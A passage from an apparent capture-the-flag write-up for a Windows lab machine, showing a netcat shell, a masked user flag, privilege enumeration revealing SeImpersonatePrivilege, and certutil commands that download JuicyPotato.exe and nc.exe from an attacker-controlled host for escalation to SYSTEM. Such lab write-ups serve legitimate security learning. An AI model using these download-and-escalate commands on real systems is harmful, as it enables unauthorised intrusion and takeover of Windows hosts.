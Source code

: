 I’m using rlwrap with the netcat so I can do things like ^L and using the arrow keys to navigate through the commands I’ve used.

Inside our user's desktop we can find the **user.txt**:
```bash
 Directory of C:\Users\tolis\Desktop

22/03/2017  10:00     <DIR>          .
22/03/2017  10:00     <DIR>          ..
10/07/2022  08:43                 34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   1.433.407.488 bytes free

type user.txt
0a3ff5c30668c*******************
```
The first part is done now let's move on to the privesc.

# **```Privilege escalation```**


We'll start by enumerating our user:
```powershell
whoami
arctic	olis

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have **SeImpersonatePrivilege**, this is amazing for us because we can abuse it and potentially get command execution as **SYSTEM**.

In order to exploit this we will need to upload the **JuicyPotato.exe** and the **netcat**:

{{< image src="/img/arc13.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


```powershell
certutil.exe -f -urlcache -split http://10.10.14.161/JuicyPotato.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

certutil.exe -f -urlcache -split http://10.10.14.161/nc.exe
****  Online  ****
  0000  ...
  6e00
CertUtil: -URLCache command completed successfully.
```
